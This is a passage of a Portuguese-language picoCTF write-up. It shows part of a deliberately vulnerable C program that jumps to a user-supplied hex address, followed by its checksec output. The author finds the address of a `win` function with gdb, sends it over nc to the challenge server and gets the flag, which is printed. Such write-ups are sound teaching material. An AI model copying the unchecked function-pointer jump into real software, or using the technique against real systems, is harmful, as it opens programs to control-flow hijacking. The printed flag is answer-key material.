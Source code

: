 ```c
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Parece que o código solicitará um endereço em hexadecimal e saltará para ele. Como não temos PIE, podemos simplesmente escolher o endereço sem preocupações. Usei o gdb para obter o endereço da função `win`: `0x40129e`.

O `scanf` lerá um valor hexadecimal, então fiz o seguinte:
```
nc saturn.picoctf.net 59045
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```
